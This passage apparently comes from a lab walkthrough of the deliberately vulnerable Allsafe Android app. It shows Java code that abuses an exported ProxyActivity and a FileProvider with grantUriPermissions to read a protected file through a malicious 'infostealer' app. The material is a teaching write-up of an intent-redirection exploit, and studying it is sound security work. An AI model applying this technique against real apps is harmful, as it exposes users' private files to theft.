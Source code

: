 Now, luckily, this is not the end of the road because the provider have the `android:grantUriPermissions` flag set to `true`. This flag grants permission to perform read operations on the URI via intent’s data.<br />
One last thing to notice is the code in `infosecadventures.allsafe.ProxyActivity`. You can see that this activity can start other activities based on an `intent` passed to it.

![52](/assets/images/Android/Allsafe/52.png)

This means that `ProxyActivity` can give us access to the protected content provider. To do so I'll have to write a malicious application that sets itself as the recipient of an embedded intent and sets the `Intent.FLAG_GRANT_READ_URI_PERMISSION` flag to give read permission on the provider then have `ProxyActivity` communicate with my app via the below intent

```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.example.infostealer.Leaker");
extra.setData(Uri.parse("content://infosecadventures.allsafe.fileprovider/files/docs/readme.txt"));
```
where `com.example.infostealer.Leaker` is an exported activity defined in my malicious application with the below code:
```java
public class Leaker extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_leaker);

        try {
            Log.d("Leaked File", IOUtils.toString( getContentResolver().openInputStream(getIntent().getData())) );
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
The reason such approach will work is because on Android, if an app does not have the right to access a given Content Provider, but the flags are set to provide access, then the flags will be ignored. But, if it does have access rights, then the same rights are transferred to the app to which the Intent is passed.<br />
And because `ProxyActivity` have access rights, these rights will be transferred to `com.example.infostealer.Leaker` with the intent.
